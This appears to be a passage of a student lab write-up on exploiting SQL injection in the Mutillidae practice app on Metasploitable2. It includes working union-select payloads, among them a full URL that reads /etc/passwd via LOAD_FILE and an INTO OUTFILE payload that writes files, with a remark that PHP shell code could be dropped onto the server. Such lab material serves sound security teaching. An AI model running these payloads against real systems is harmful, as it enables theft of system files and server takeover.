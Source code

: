 ![etex27](https://github.com/MDINESH220305/sqlinjection/assets/162429215/71376b9a-a417-4b66-ab0a-372c58d6ca7a)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![etex28](https://github.com/MDINESH220305/sqlinjection/assets/162429215/704c9f74-6e21-42a0-ba97-aefb9a34cbf3)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
